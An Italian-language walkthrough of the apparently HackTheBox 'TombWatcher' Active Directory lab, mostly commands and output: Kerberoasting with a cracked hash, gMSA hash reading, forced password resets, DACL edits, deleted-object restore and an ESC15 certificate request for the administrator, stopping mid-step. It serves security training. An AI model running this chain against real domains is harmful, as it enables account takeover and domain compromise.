





# TombWatcher



```text

Machine Information
As is common in real life Windows pentests, you will start the TombWatcher box with credentials for the following account: henry / H3nry_987TGV!

```

## Recon

Si individuano le porte attive.

```bash

$ nmap -p- --min-rate 1000 10.x.x.x

PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49691/tcp open  unknown
49692/tcp open  unknown
49694/tcp open  unknown
49715/tcp open  unknown
49734/tcp open  unknown

```

```bash

$ nmap -p53,80,88,135,139,389,445,464,593,636 -sCV 10.x.x.x

PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
80/tcp  open  http          Microsoft IIS httpd 10.0
88/tcp  open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-09-10 12:42:34Z)
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-09-10T12:43:33+00:00; -3h58m26s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
593/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.tombwatcher.htb
| Not valid before: 2024-11-16T00:47:59
|_Not valid after:  2025-11-16T00:47:59
|_ssl-date: 2025-09-10T12:43:32+00:00; -3h58m27s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-10T12:42:47
|_  start_date: N/A
|_clock-skew: mean: -3h58m27s, deviation: 2s, median: -3h58m27s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

```

Si aggiunge un record al DNS locale per associare l'indirizzo IP del target con **domain controller name**, **domain name** e **host name**.

```bash

$ sudo nxc smb --generate-hosts-file /etc/hosts 10.x.x.x
SMB         10.x.x.x  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 

```

```text

10.x.x.x     DC01.tombwatcher.htb tombwatcher.htb DC01

```

## Information Gathering as Henry

```bash

$ nxc smb tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' --shares
SMB         10.x.x.x  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC01             [+] tombwatcher.htb\henry:H3nry_987TGV! 
SMB         10.x.x.x  445    DC01             [*] Enumerated shares
SMB         10.x.x.x  445    DC01             Share           Permissions     Remark
SMB         10.x.x.x  445    DC01             -----           -----------     ------
SMB         10.x.x.x  445    DC01             ADMIN$                          Remote Admin
SMB         10.x.x.x  445    DC01             C$                              Default share
SMB         10.x.x.x  445    DC01             IPC$            READ            Remote IPC
SMB         10.x.x.x  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.x.x.x  445    DC01             SYSVOL          READ            Logon server share 

```

```bash

$ nxc smb tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' --users 
SMB         10.x.x.x  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC01             [+] tombwatcher.htb\henry:H3nry_987TGV! 
SMB         10.x.x.x  445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.x.x.x  445    DC01             Administrator                 2025-04-25 14:56:03 0       Built-in account for administering the computer/domain 
SMB         10.x.x.x  445    DC01             Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.x.x.x  445    DC01             krbtgt                        2024-11-16 00:02:28 0       Key Distribution Center Service Account 
SMB         10.x.x.x  445    DC01             Henry                         2025-05-12 15:17:03 0        
SMB         10.x.x.x  445    DC01             Alfred                        2025-05-12 15:17:03 0        
SMB         10.x.x.x  445    DC01             sam                           2025-05-12 15:17:03 0        
SMB         10.x.x.x  445    DC01             john                          2025-05-19 13:25:10 0        
SMB         10.x.x.x  445    DC01             [*] Enumerated 7 local users: TOMBWATCHER

```

### BloodHound

Si risolve il **clock skew**.

```bash

$ timedatectl set-ntp off

$ rdate -n 10.x.x.x

```

Si collezionano informazioni su **Active Directory** per il dominio target.

```bash

$ bloodhound-python -d tombwatcher.htb -c all -ns 10.x.x.x -u 'henry' -p 'H3nry_987TGV!' --zip

```

Si visualizzano e analizzano permessi e possibili path di attacco con **Blood Hound**.



## Targeted Kerberost Attack

Si sfruttano i permessi di **WriteSPN** per un **targeted kerberost attack** contro **alfred**.

```bash

$ targetedKerberoast.py -v -d 'tombwatcher.htb' --request-user 'alfred' -u 'henry' -p 'H3nry_987TGV!'
[*] Starting kerberoast attacks
[*] Attacking user (alfred)
[VERBOSE] SPN added successfully for (Alfred)
[+] Printing hash for (Alfred)
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$08975a32d56238433e7edb667f069a15$c9152420d8c97f8f67f8f9eef4ab79158bc54f367a33eb1d95e7f86ee0238fbaddafc47fc9ec91cafe268e4d907003d9c7c98196cb50567df28a2d7c143582a0891ec3a665c96bdc56fe21994621f0a3ba74ed1bb0567519dea792a6e9df31addcdf05b8a5c44ef9fb84db4a47ea17b93b83f8f137bd63efeb3d342a02be36c12dd8db82443dfbe7c1c1c8cd17fcb91ca34bd903d9813de2bbffc867100cb9e37f66c1d6c79967502608f27616d609845f0e2881c6e96a02e61d62803052cd039ad5c01649ade0febc6cdabc66fd145d963a5ac5dec53ccf624bba7e99566e3216f515b2f567d464d7ae0e831dd6494f31ebed2843331e5ad0366c8012632e9d5ca066f5441f2d054ad39b9315c70c98ff13a355f4ab7a144c647a11e0b2c7e41c775a5f5d774d3a5bf7b3bc3ac344b4b68137623ae83d89ada73dbcddbc69eeace061f14e62b90a9f169c7b2f1c702dc215d0e41c84d988e1d234a6ede316b70e1cb2c74e18c3d0d9784679e9e441ea22e02fbf58e3962a534795473f76d52240cd88e96a4a0a53538dc7553351f298501b16581ba1f617ad4804dcf4a652c77ff1c332e60a9b985641efc70efe05b7e562b9157ac9f56140e78b2db92c31abdebead0eaa94876d8071a8dfc8a264ceca4e4d3288999cdd63dc2a33471c6356b8847c7edccec71670d79e51e47cf178a2087080f69aeac1288b2335a37fef3694df1a27f6ae87a9a0062c60a04a488c1a8f761949558cc7fdc4fa3777c8d65a525803deb9cf126646a4dd7c49935a7fd9bf891631482bb3820a5b3aacbc25657104437bdc329ce077b1fd72da122468aab2f33f675625523b7a5a055dc8c23354b777bc5c6407a2a76a54b9d06fe0fb805e8f7e50c5a6e1b5f46caade3ea35dd4ce017fcf0c9cff4b6873c05de100461ee660fbaa1c01a6cbbc59ec50a771fc7efc00f041455856779357809ce6013b759db773ac498e3ca01aa3a4bff08a682270a0804102943fb4979c223a1e658fea09fab4887b25be9d96ddcbee851e0f7c2a5aa6b4b6f058b0c39851495665ba1449c710c84acea78eba776cc740092b8ba46cbbc682a1dc57cd884025b880e01aabd4e9858ba4b97747679775133bc3f11b75976ccfc8c16bc223265bbb88269d427df0754b86584ca1521c0cfa2a91a8a8e6bf72262522360176d5e0910f43e8dc7a2ad566c57e4992bdb22020c44c3239d02288decd4a01cd87adf4433015514dc83e9b35bed9fa417a02957742cc66d953ea8b0d9557371c8344d3143c1759fbff4da88ca7ea41b84bd5e6d8db6a8e9f90a63d1e39c5c84914df4756e7702b3ea8ace273d3ca6de0837a27af77171feaf3172f685db006464f29eabcc31e0b2b8616afd14b30718f3c922870afee87e7b5710015e58ef6ba92af0cd9fb114b02fa96b55ec22695f304cdfcd733e57517e3c40b79483e97436b75f6071ca3c26cf1f9d4
[VERBOSE] SPN removed successfully for (Alfred)

```

Si cracca il **TGS**.

```bash

$ hashcat -a 0 -m 13100 alfred.tgs /usr/share/wordlists/rockyou.txt.gz --show
$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$08975a32d56238433e7edb667f069a15$c9152420d8c97f8f67f8f9eef4ab79158bc54f367a33eb1d95e7f86ee0238fbaddafc47fc9ec91cafe268e4d907003d9c7c98196cb50567df28a2d7c143582a0891ec3a665c96bdc56fe21994621f0a3ba74ed1bb0567519dea792a6e9df31addcdf05b8a5c44ef9fb84db4a47ea17b93b83f8f137bd63efeb3d342a02be36c12dd8db82443dfbe7c1c1c8cd17fcb91ca34bd903d9813de2bbffc867100cb9e37f66c1d6c79967502608f27616d609845f0e2881c6e96a02e61d62803052cd039ad5c01649ade0febc6cdabc66fd145d963a5ac5dec53ccf624bba7e99566e3216f515b2f567d464d7ae0e831dd6494f31ebed2843331e5ad0366c8012632e9d5ca066f5441f2d054ad39b9315c70c98ff13a355f4ab7a144c647a11e0b2c7e41c775a5f5d774d3a5bf7b3bc3ac344b4b68137623ae83d89ada73dbcddbc69eeace061f14e62b90a9f169c7b2f1c702dc215d0e41c84d988e1d234a6ede316b70e1cb2c74e18c3d0d9784679e9e441ea22e02fbf58e3962a534795473f76d52240cd88e96a4a0a53538dc7553351f298501b16581ba1f617ad4804dcf4a652c77ff1c332e60a9b985641efc70efe05b7e562b9157ac9f56140e78b2db92c31abdebead0eaa94876d8071a8dfc8a264ceca4e4d3288999cdd63dc2a33471c6356b8847c7edccec71670d79e51e47cf178a2087080f69aeac1288b2335a37fef3694df1a27f6ae87a9a0062c60a04a488c1a8f761949558cc7fdc4fa3777c8d65a525803deb9cf126646a4dd7c49935a7fd9bf891631482bb3820a5b3aacbc25657104437bdc329ce077b1fd72da122468aab2f33f675625523b7a5a055dc8c23354b777bc5c6407a2a76a54b9d06fe0fb805e8f7e50c5a6e1b5f46caade3ea35dd4ce017fcf0c9cff4b6873c05de100461ee660fbaa1c01a6cbbc59ec50a771fc7efc00f041455856779357809ce6013b759db773ac498e3ca01aa3a4bff08a682270a0804102943fb4979c223a1e658fea09fab4887b25be9d96ddcbee851e0f7c2a5aa6b4b6f058b0c39851495665ba1449c710c84acea78eba776cc740092b8ba46cbbc682a1dc57cd884025b880e01aabd4e9858ba4b97747679775133bc3f11b75976ccfc8c16bc223265bbb88269d427df0754b86584ca1521c0cfa2a91a8a8e6bf72262522360176d5e0910f43e8dc7a2ad566c57e4992bdb22020c44c3239d02288decd4a01cd87adf4433015514dc83e9b35bed9fa417a02957742cc66d953ea8b0d9557371c8344d3143c1759fbff4da88ca7ea41b84bd5e6d8db6a8e9f90a63d1e39c5c84914df4756e7702b3ea8ace273d3ca6de0837a27af77171feaf3172f685db006464f29eabcc31e0b2b8616afd14b30718f3c922870afee87e7b5710015e58ef6ba92af0cd9fb114b02fa96b55ec22695f304cdfcd733e57517e3c40b79483e97436b75f6071ca3c26cf1f9d4:basketball

```

Si sono ottenute le credenziali **alfred:basketball**

```bash

$ nxc smb tombwatcher.htb -u 'alfred' -p 'basketball'    
SMB         10.x.x.x  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC01             [+] tombwatcher.htb\alfred:basketball

```

## Member of Infastructure Group



Si sfrutta il permesso di **AddSelf** per ottenere i privilegi del gruppo **Infrastructure**.

```bash

# Add Member
$ bloodyAD --host 'DC01.tombwatcher.htb' -d 'tombwatcher.htb' -u 'alfred' -p 'basketball' add groupMember 'INFRASTRUCTURE' 'alfred'
[+] alfred added to INFRASTRUCTURE

# Get Members of Infrastructure
$ net rpc group members 'INFRASTRUCTURE' -U 'tombwatcher.htb'/'alfred'%'basketball' -S 'tombwatcher.htb' 
TOMBWATCHER\Alfred

```

## Read the GMSA password


L'account **ansible_dev$** e' un **Group Managed Service Account**. 

> **Manage group Managed Service Accounts*: [https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-managed-service-accounts/group-managed-service-accounts/manage-group-managed-service-accounts?tabs=aduc](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/group-managed-service-accounts/group-managed-service-accounts/manage-group-managed-service-accounts?tabs=aduc)

Si sfrutta il permesso di **ReadGMSAPassword**.

```bash

# Read the msDS-ManagePassword Attribute
$ bloodyAD --host 'DC01.tombwatcher.htb' -d 'tombwatcher.htb' -u 'alfred' -p 'basketball' get object 'ANSIBLE_DEV$' --attr msDS-ManagedPassword

distinguishedName: CN=ansible_dev,CN=Managed Service Accounts,DC=tombwatcher,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:ecb4146b3f99e6bbf06ca896f504227c
msDS-ManagedPassword.B64ENCODED: +0NwKr5b2W/PDphu0J0H7JgrwN0uaVNuREYtW1Ks7J2bC8gaPCa2YSgNfOQpSq/WWJM1qQgsHLcNjecsXxuOXB9kGIEahJopCgo8K5B36Q5tYYsP7VYCqsFYH7aYXpSEfd/H0H406RYMESV01NNNwW21XMB/gq+W7A/G9A0Vzn4HDavKA7O/iVvFtap20Nydrv7Zb0jx32MZy9mmvtDzpX9SFVwadKDLzGVS+2TKkp8L2QOpX5sKyL1NUDBFkjxfps6Swtz4HYWKzzGXz3nxSQKqx0JcS8NERGWK3n4qJd9uyeyAWMda3U3PqdAmgvJAo7heAJHn+naC3ldICxhU6A==

# LM:NTLM hash => aad3b435b51404eeaad3b435b51404ee:4f46405647993c7d4e1dc1c25dd6ecf4
 
# Check the NTLM hash
$ nxc smb tombwatcher.htb -u 'ANSIBLE_DEV$' -H 'ecb4146b3f99e6bbf06ca896f504227c'
SMB         10.x.x.x  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC01             [+] tombwatcher.htb\ANSIBLE_DEV$:ecb4146b3f99e6bbf06ca896f504227c 

```

## Force Change Password to Sam


Si sfrutta il permesso di **Force Change Password** contro l'utente **sam**.

```bash
# Force Change Password Attack
$ pth-net rpc password 'SAM' 'Password123!' -U 'tombwatcher.htb'/'ANSIBLE_DEV$'%'aad3b435b51404eeaad3b435b51404ee:ecb4146b3f99e6bbf06ca896f504227c' -S 'DC01.tombwatcher.htb'
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...

# Check the credential
$ nxc smb tombwatcher.htb -u 'sam' -p 'Password123!'                             
SMB         10.x.x.x  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC01             [+] tombwatcher.htb\sam:Password123!

```

### Get the Ownership, Grant the Full Control & Set Password to John

```bash

# Sam becomes John's owner
$ bloodyAD --host 'DC01.tombwatcher.htb' -d 'tombwatcher.htb' -u 'sam' -p 'Password123!' set owner 'john' 'sam'
[+] Old owner S-1-5-21-1392491010-1358638721-2126982587-512 is now replaced by sam on john

# Sam grants Full Control on John
$ impacket-dacledit -action 'write' -rights 'FullControl' -principal 'sam' -target 'john' 'tombwatcher.htb'/'sam':'Password123!'               
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250910-124103.bak
[*] DACL modified successfully!

# Set new password
$ bloodyAD --host 'tombwatcher.htb' -d 'tombwatcher.htb' -u 'sam' -p 'Password123!' set password 'john' 'P@ssword123'
[+] Password changed successfully!

# Check the credential
$ nxc smb tombwatcher.htb -u 'john' -p 'P@ssword123'                                                 
SMB         10.x.x.x  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:tombwatcher.htb) (signing:True) (SMBv1:False) 
SMB         10.x.x.x  445    DC01             [+] tombwatcher.htb\john:P@ssword123

```

## Shell as John

L'account **john** e' membro del gruppo **Remote Management Users** e quindi ha accesso a **WinRM**.

```bash

$ evil-winrm -i 10.x.x.x -u 'john' -p 'P@ssword123'

```

Si ottiene la **user.txt**

```powershell

*Evil-WinRM* PS C:\Users\john\Desktop> cat user.txt
6c6d721e66f5fa0b27c5b45a451d7828

```

## Restore Deleted AD Object



Si applica un **GenericAll ACE on the OU** che sara' ereditato da tutti gli oggetti contenuti in OU.

```bash

$ impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'john' -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' 'tombwatcher.htb'/'john':'P@ssword123'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250912-112403.bak
[*] DACL modified successfully!

```

Dall'account **john** si recuperano i **deleted object** in **AD**. 

```powershell

*Evil-WinRM* PS C:\Users\john\Documents> Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects


Deleted           : True
DistinguishedName : CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : Deleted Objects
ObjectClass       : container
ObjectGUID        : 34509cb3-2b23-417b-8b98-13f0bd953319

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:f80369c8-96a2-4a7f-a56c-9c15edd7d1e3
ObjectClass       : user
ObjectGUID        : f80369c8-96a2-4a7f-a56c-9c15edd7d1e3

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:c1f1f0fe-df9c-494c-bf05-0679e181b358,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:c1f1f0fe-df9c-494c-bf05-0679e181b358
ObjectClass       : user
ObjectGUID        : c1f1f0fe-df9c-494c-bf05-0679e181b358

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
ObjectClass       : user
ObjectGUID        : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf

```

Si recupera **cert_admin** .

```powershell

*Evil-WinRM* PS C:\Users\john\Documents> Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf

*Evil-WinRM* PS C:\Users\john\Documents> Enable-ADAccount -Identity cert_admin

```

Si raccolgono informazioni su **AD** e si visualizzano con **BloodHound**.

```bash

$ bloodhound-python -d tombwatcher.htb -c all -ns 10.x.x.x -u 'john' -p 'P@ssword123' --zip

```



**GenericAll** permette un **Force Change Password** contro **cert_admin**.

```powershell

*Evil-WinRM* PS C:\Users\john\Documents> Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "P@ssword123" -AsPlainText -Force)

```

## ESC15

Si cercano vulnerabilita' con i ceritificati dall'account **cert_admin**.

```bash

$ certipy-ad find -u 'cert_admin' -p 'P@ssword123' -dc-ip 10.x.x.x -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)
[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : TOMBWATCHER.HTB\Administrators
      Access Rights
        ManageCa                        : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        ManageCertificates              : TOMBWATCHER.HTB\Administrators
                                          TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Enroll                          : TOMBWATCHER.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : WebServer
    Display Name                        : Web Server
    Certificate Authorities             : tombwatcher-CA-1
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Extended Key Usage                  : Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 1
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-16T00:57:49+00:00
    Template Last Modified              : 2024-11-16T17:07:26+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
      Object Control Permissions
        Owner                           : TOMBWATCHER.HTB\Enterprise Admins
        Full Control Principals         : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Owner Principals          : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Dacl Principals           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
        Write Property Enroll           : TOMBWATCHER.HTB\Domain Admins
                                          TOMBWATCHER.HTB\Enterprise Admins
                                          TOMBWATCHER.HTB\cert_admin
    [+] User Enrollable Principals      : TOMBWATCHER.HTB\cert_admin
    [!] Vulnerabilities
      ESC15                             : Enrollee supplies subject and schema version is 1.
    [*] Remarks
      ESC15                             : Only applicable if the environment has not been patched. See CVE-2024-49019 or the wiki for more details.

```

### **ESC15: Arbitrary Application Policy Injection in V1 Templates (CVE-2024-49019 "EKUwu")**

**Step 1**: Request a certificate, injecting "Client Authentication" Application Policy and target UPN. Attacker attacker@corp.local targets administrator@corp.local using the "WebServer" V1 template (which allows enrollee-supplied subject).

```bash

$ certipy-ad req -u 'cert_admin@tombwatcher.htb' -p 'P@ssword123' -dc-ip '10.x.x.x' -target 'DC01.tombwatcher.htb' -ca 'tombwatcher-CA-1' -template 'WebServer' -upn 'administrator@tombwatcher.htb' -application-policies 'Client Authentication'    Certipy v5.0.2 - by Oliver Lyak (ly4k)                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                            
[*] Requesting certificate via RPC                                                                                                                                                                                                                          
[*] Request ID is 12                                                                                                                                                                                                                                        
[*] Successfully requested certificate                                                                                                                                                                                                                      
[*] Got certificate with UPN 'administrator@tombwatcher.htb'                                                                                                                                                                                                
[*] Certificate has no object SID                                                                                                                                                                                                                           
[*] Try using -sid to set the object SID or see the wiki for more details                                                                                                                                                                                   
